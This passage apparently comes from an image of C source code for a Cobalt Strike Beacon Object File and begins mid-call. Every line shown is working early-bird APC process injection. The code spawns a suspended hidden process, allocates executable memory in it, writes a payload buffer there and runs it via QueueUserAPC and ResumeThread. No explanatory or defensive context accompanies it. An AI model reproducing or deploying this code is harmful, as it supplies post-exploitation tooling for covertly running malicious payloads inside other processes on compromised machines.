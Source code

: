 ```c
  CREATE_NO_WINDOW | CREATE_SUSPENDED,
  NULL,
  NULL,
  &si,
  &pi);

if (!success) {
  BeaconPrintf(CALLBACK_ERROR, "CreateProcessA failed.");
  return;
}

BeaconPrintf(CALLBACK_OUTPUT, "[+] Process ID of spawned process: %d", pi.dwProcessId);

// allocate memory
LPVOID remoteBuffer = KERNEL32$VirtualAllocEx(
  pi.hProcess,
  NULL,
  dllLen,
  MEM_COMMIT,
  PAGE_EXECUTE_READWRITE);

if (remoteBuffer == NULL) {
  BeaconPrintf(CALLBACK_ERROR, "VirtualAllocEx failed.");
  return;
}

BeaconPrintf(CALLBACK_OUTPUT, "[+] Remote buffer at 0x%p", remoteBuffer);

// write memory
SIZE_T bytesWritten;
success = KERNEL32$WriteProcessMemory(
  pi.hProcess,
  remoteBuffer,
  dllPtr,
  dllLen,
  &bytesWritten);

if (!success) {
  BeaconPrintf(CALLBACK_ERROR, "WriteProcessMemory failed.");
  return;
}

// QueueUserAPC
DWORD queueUserApcResult = KERNEL32$QueueUserAPC(
  (PAPCFUNC)remoteBuffer,
  pi.hThread,
  0);

if (queueUserApcResult == 0) {
  BeaconPrintf(CALLBACK_ERROR, "QueueUserAPC failed.");
  return;
}

KERNEL32$ResumeThread(pi.hThread);
```
